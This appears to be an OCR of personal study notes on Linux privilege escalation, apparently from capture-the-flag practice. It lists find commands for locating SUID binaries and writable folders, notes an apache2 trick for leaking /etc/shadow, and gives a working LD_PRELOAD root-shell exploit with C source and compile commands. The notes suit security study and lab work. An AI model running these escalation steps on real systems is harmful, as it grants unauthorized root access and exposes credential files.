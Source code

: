 `find /home -name flag1.txt` | find the file names “flag1.txt” in the /home directory
`find / -type d -name config` | find the directory named config under “/”
`find / -type f -perm 0777` | find files with the 777 permissions (files readable, writable, and executable by all users)
`find / -perm a=x` | find executable files
`find /home -user frank` | find all files for user “frank” under “/home”
`find / -mtime 10` | find files that were modified in the last 10 days
`find / -atime 10` | find files that were accessed in the last 10 day
`find / -cmin -60` | find files changed within the last hour (60 minutes)
`find / -amin -60` | find files accesses within the last hour (60 minutes)
`find / -size 50M` | find files with a 50 MB size can be used with + or negative to find a file smaller or bigger than `+50M`
`find / -writable -type d 2>/dev/null` | Find world-writeable folders
`find / -perm -222 -type d 2>/dev/null` | Find world-writeable folders
`find / -perm -o w -type d 2>/dev/null` | Find world-writeable folders
`find / -perm -o x -type d 2>/dev/null` | Find world-executable folders
`find / -name perl*`
`find / -name python*`
`find / -name gcc*`
`find / -perm -u=s -type f 2>/dev/null` | Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user
`find / -type f -perm -04000 -ls 2>/dev/null` | list files that have SUID or SGID bit set | compare with gtfobins suid checked for known vuln binaries
--
**leverage application functions**
--
some applications will not have known exploits
--
for example:
apache2 can be used to leak information with  `-f` so specify alt serverconfigfile, passing etc/shadow to this param will throw an error message and leak the first line of /etc/shadow
--
**leverage LD_PRELOAD**
--
after using `sudo -l`, it may display `env_keep+=LD_PRELOAD`, this function allows any program to use shared libraries
we can generate a shared library which will be loaded and executed before the program is run
LD_PRELOAD IS IGNORED IF THE REAL USER ID IS DIFFERENT FROM THE EFFECTIVE USER ID
--
1. check for `env_keep+=LD_PRELOAD`
2. write simple c code compiled as share object (.so)
3. run program with sudo rights with LD_PRELOAD option pointing to .so file
--
c code:
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
--
4. compile: `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
5. `sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
--
**leverage SUID or SGID**
--
suid allows file to be run as same privledges as the file owner
--
1. `find / -type f -perm -04000 -ls 2>/dev/null`
2. find binary that can be used for example `nano`